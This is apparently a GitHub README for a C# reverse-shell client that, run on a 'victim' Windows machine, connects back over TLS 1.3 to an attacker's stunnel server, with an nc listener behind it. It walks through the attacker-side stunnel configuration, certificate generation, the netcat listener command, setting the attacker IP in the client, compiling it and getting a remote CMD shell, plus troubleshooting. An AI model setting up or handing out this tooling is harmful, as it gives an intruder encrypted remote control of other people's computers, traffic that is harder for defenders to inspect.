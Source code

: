 # STunnell_RevShell
Stunell reverse shell 
## Architecture
- Client Net4.8 C#
- Server Stunnell4

## Scenario:
Client is the victim, that executes the connection to the server (attacker) that serves stunnell.
Server is the attacker running stunnel4. Follows the configuration:
	
	cat /etc/stunnel/stunnel.conf 
	[nc]
	client = no
	accept = 9999
	connect = 127.0.0.1:6666
	cert = /etc/stunnel/stunnel.pem
	
	 
Here we set stunnel listening for incoming connection on port 9999. This connection is encrypted, then forwards the stream  to port 6666 where we will have nc listening. This flow is not encrypted of course.

## Create the certificate on the server
	
	openssl genrsa -out key.pem 2048
	openssl req -new -x509 -key key.pem -out cert.pem -days 1095
	cat key.pem cert.pem > /etc/stunnel/stunnel.pem
 
Start stunnell

	service stunnel4 start
	
Check if works:

	sudo service stunnel4 status
	● stunnel4.service - LSB: Start or stop stunnel 4.x (TLS tunnel for network daemons)
	     Loaded: loaded (/etc/init.d/stunnel4; generated)
	     Active: active (running) since Tue 2024-05-21 22:11:47 CEST; 5s ago
	       Docs: man:systemd-sysv-generator(8)
	    Process: 133285 ExecStart=/etc/init.d/stunnel4 start (code=exited, status=0/SUCCESS)
	      Tasks: 3 (limit: 9398)
	     Memory: 4.2M (peak: 4.6M)
	        CPU: 241ms
     	CGroup: /system.slice/stunnel4.service
             └─133301 /usr/bin/stunnel4 /etc/stunnel/stunnel.conf


Verify stunnell port is listening:	

    netstat -tulp | grep 9999
	  Active Internet connections (only servers)
	  Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	  tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      19338/stunnel4
	  ...
	
Then we can lunch nc to listen on port 6666 as configurated on stunnel

	nc -lvp 6666
	
## Configure the client
Set the Stunnell server and port around line 50:

	//CONFIG THIS: point to the Stunell server
        string IP = "192.168.1.2";
        int PORT = 9999;
## TLS configuration
The client use TLS 1.3 (teseted on windows 11) to connect to the server:

	sslStream.AuthenticateAsClient("host.local", 
		new X509CertificateCollection(), 
		SslProtocols.Tls13, 
		false);

## Compile the client
Youn can compile the client as follows:

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe STunnel_RevShell.cs
	
	
Executing Program.exe we should read the following on the shell

	ver 1.0 Coded by GuerraIT
	ver 1.1 Modified by Zinzloun (support TLS 1.3)
	
	Using the following connection 192.168.1.7:9999
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxxxx ......
The you shoud get a CMD shell on the attacker

## Exception: missing server connection
### nc is not listening on the server
Since the client app can connect to Stunnell but not to nc, it will continue to send requests to the server. You will see on the console the certificate info looping:
	
 	...
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
 	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
	...
At soon as the nc listener is started on the server the client will connect immediately, stopping to print the certificate information; you will get the shell.

## Stunnell service is not reachable
In this case the client will keep to try to connect to Stunnel. You won't get the certificate information printed in this case, only the following line:

	...
	Using the following connection 192.168.1.7:9999
As soon as the client can connect to Stunnel the app will switch to the previous state (looping certificate info printend on the screen). If nc listener is also started on the server you will get a shell.


## Trouble shooting on Kali
If you get the following error re-starting stunnel:

	sudo service stunnel4 status
	...
 	Active: failed (Result: exit-code) since Tue 2024-05-21 22:04:54 CEST; 2min 21s ago
  	stunnel4.service: Failed with result 'exit-code'.
	stunnel4.service: Unit process 52254 (stunnel4) remains running after unit stopped.

It seems a bug on Debian related to the PID file, to solve try to manually kill the related process 

 	sudo kill -9 52254

Then restart the service

		

